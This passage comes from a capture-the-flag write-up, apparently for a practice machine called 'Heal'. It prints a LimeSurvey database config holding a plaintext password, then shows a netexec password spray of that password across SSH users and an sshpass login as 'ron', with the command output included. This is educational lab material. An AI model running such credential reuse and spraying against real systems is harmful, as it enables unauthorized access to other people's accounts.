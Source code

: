 ```
|    'connectionString' Hostname, database, port and database type for
|     the connection. Driver example: mysql. Currently supported:
|                 mysql, pgsql, mssql, sqlite, oci
|    'username' The username used to connect to the database
|    'password' The password used to connect to the database|    'tablePrefix' You can add an optional prefix, which will be added    
|                 to the table name when using the Active Record class
|
*/
return array(
        'components' => array(                             
                'db' => array(
                        'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;d
bname=survey;',
                        'emulatePrepare' => true,
                        'username' => 'db_user',
                        'password' => 'AdmiDi0_pA$$w0rd',
                        'charset' => 'utf8',               
                        'tablePrefix' => 'lime_',
                ),
...[snip]...

```

I’ll note the password “AdmiDi0\_pA$$w0rd”.

### SSH

#### Password Spray

I’ll make a list of the users on the box with shells and use `netexec` to check if any used that same password:

```

oxdf@hacky$ netexec ssh heal.htb -u users.txt -p 'AdmiDi0_pA$$w0rd' --continue-on-success
SSH         10.10.11.46     22     heal.htb         [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10
SSH         10.10.11.46     22     heal.htb         [-] root:AdmiDi0_pA$$w0rd
SSH         10.10.11.46     22     heal.htb         [-] ralph:AdmiDi0_pA$$w0rd
SSH         10.10.11.46     22     heal.htb         [+] ron:AdmiDi0_pA$$w0rd  Linux - Shell access!
SSH         10.10.11.46     22     heal.htb         [-] postgres:AdmiDi0_pA$$w0rd

```

There’s a match for ron.

#### Connect

I’ll connect as ron:

```

oxdf@hacky$ sshpass -p 'AdmiDi0_pA$$w0rd' ssh ron@heal.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
...[snip]...
ron@heal:~$

```

